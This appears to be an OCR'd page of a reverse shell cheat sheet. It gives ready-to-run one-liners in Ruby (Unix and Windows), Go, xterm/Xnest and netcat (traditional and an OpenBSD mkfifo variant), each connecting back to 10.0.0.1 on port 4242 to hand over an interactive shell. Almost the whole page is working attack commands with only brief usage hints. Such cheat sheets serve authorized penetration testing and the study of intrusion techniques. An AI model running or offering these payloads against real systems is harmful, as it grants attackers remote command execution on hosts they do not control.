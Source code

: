 ## Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1", 4242).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d", f, f, f)'

ruby -rsocket -e'exit if fork; c=TCPSocket.new("10.0.0.1", "4242"); loop{c.gets.chomp!; (exit! if $_=="exit"); ($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```
### Microsoft Windows | Ruby
```
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1", "4242"); while(cmd=c.gets); IO.popen(cmd, "r"){|io|c.print io.read}end'
```

## Golang
```
echo 'package main; import"os/exec"; import"net"; func main(){c,_:=net.Dial("tcp", "10.0.0.1:4242"); cmd:=exec.Command("/bin/sh"); cmd.Stdin=c; cmd.Stdout=c; cmd.Stderr=c; cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

## Xterm
**One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.**
```
xterm -display 10.0.0.1:1
```
**To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system)**
```
Xnest :1
```
**You’ll need to authorise the target to connect to you (command also run on your host)**
```
xhost +<Target IP>
```

## Netcat Traditional
```
netcat -e /bin/sh 10.0.0.1 4242
netcat -e /bin/bash 10.0.0.1 4242
netcat -c bash 10.0.0.1 4242
```

## Netcat OpenBSD
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.0.0.1 4242 >/tmp/f
```
